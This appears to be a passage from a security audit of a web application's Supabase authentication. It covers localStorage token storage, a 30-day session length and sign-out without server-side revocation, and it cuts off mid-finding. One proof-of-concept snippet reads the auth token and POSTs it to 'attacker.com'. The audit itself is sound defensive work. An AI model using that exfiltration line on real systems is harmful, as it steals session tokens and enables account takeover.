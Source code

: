 
## 2. Identified Vulnerabilities

### 2.1 CRITICAL: localStorage Token Storage

**Risk Level**: HIGH  
**CVSS Score**: 7.5 (High)

**Issue**:
Tokens are stored in `localStorage`, which is accessible to any JavaScript running on the page. If an XSS vulnerability exists elsewhere in the application, attackers can steal tokens.

**Impact**:
- Attacker can impersonate users
- Full account access
- Data exfiltration
- Unauthorized actions on behalf of user

**Proof of Concept**:
```javascript
// Any XSS payload can access tokens
const token = localStorage.getItem('supabase.auth.token');
fetch('https://attacker.com/steal', { method: 'POST', body: token });
```

**Recommendation**:
1. **Short-term**: Implement Content Security Policy (CSP) to prevent XSS
2. **Medium-term**: Consider `httpOnly` cookies for token storage (requires backend changes)
3. **Long-term**: Implement token rotation and short-lived access tokens

### 2.2 HIGH: Long Session Duration

**Risk Level**: MEDIUM  
**CVSS Score**: 5.3 (Medium)

**Issue**:
30-day session duration means if a token is compromised, the attacker has 30 days of access.

**Impact**:
- Extended attack window
- Delayed detection of compromise
- Increased damage from token theft

**Recommendation**:
1. Reduce session duration to 7 days
2. Implement "remember me" checkbox for 30-day sessions
3. Add session activity monitoring
4. Implement automatic logout after inactivity

### 2.3 MEDIUM: No Token Revocation on Sign-Out

**Risk Level**: MEDIUM  
**CVSS Score**: 5.0 (Medium)

**Issue**:
Current sign-out only clears local tokens (`scope: 'local'`). Tokens remain valid on the server.
